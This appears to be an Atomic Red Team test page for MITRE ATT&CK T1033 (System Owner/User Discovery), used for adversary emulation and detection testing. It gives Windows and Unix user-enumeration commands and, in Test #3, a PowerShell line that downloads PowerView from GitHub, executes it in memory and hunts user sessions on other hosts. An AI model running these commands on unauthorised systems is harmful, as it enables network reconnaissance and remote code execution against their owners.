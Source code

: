 # T1033 - System Owner/User Discovery
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1033)
<blockquote>Adversaries may attempt to identify the primary user, currently logged in user, set of users that commonly uses a system, or whether a user is actively using the system. They may do this, for example, by retrieving account usernames or by using [OS Credential Dumping](https://attack.mitre.org/techniques/T1003). The information may be collected in a number of different ways using other Discovery techniques, because user and username details are prevalent throughout a system and include running process ownership, file/directory ownership, session information, and system logs. Adversaries may use the information from [System Owner/User Discovery](https://attack.mitre.org/techniques/T1033) during automated discovery to shape follow-on behaviors, including whether or not the adversary fully infects the target and/or attempts specific actions.

Utilities and commands that acquire this information include <code>whoami</code>. In Mac and Linux, the currently logged in user can be identified with <code>w</code> and <code>who</code>.</blockquote>

## Atomic Tests

- [Atomic Test #1 - System Owner/User Discovery](#atomic-test-1---system-owneruser-discovery)

- [Atomic Test #2 - System Owner/User Discovery](#atomic-test-2---system-owneruser-discovery)

- [Atomic Test #3 - Find computers where user has session - Stealth mode (PowerView)](#atomic-test-3---find-computers-where-user-has-session---stealth-mode-powerview)


<br/>

## Atomic Test #1 - System Owner/User Discovery
Identify System owner or users on an endpoint.

Upon successful execution, cmd.exe will spawn multiple commands against a target host to identify usernames. Output will be via stdout. 
Additionally, two files will be written to disk - computers.txt and usernames.txt.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| computer_name | Name of remote computer | string | localhost|


#### Attack Commands: Run with `command_prompt`! 


```cmd
cmd.exe /C whoami
wmic useraccount get /ALL
quser /SERVER:"#{computer_name}"
quser
qwinsta.exe /server:#{computer_name}
qwinsta.exe
for /F "tokens=1,2" %i in ('qwinsta /server:#{computer_name} ^| findstr "Active Disc"') do @echo %i | find /v "#" | find /v "console" || echo %j > computers.txt
@FOR /F %n in (computers.txt) DO @FOR /F "tokens=1,2" %i in ('qwinsta /server:%n ^| findstr "Active Disc"') do @echo %i | find /v "#" | find /v "console" || echo %j > usernames.txt
```






<br/>
<br/>

## Atomic Test #2 - System Owner/User Discovery
Identify System owner or users on an endpoint

Upon successful execution, sh will stdout list of usernames.

**Supported Platforms:** Linux, macOS





#### Attack Commands: Run with `sh`! 


```sh
users
w
who
```






<br/>
<br/>

## Atomic Test #3 - Find computers where user has session - Stealth mode (PowerView)
Find existing user session on other computers. Upon execution, information about any sessions discovered will be displayed.

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`! 


```powershell
IEX (IWR 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f94a5d298a1b4c5dfb1f30a246d9c73d13b22888/Recon/PowerView.ps1'); Invoke-UserHunter -Stealth -Verbose
```






<br/>
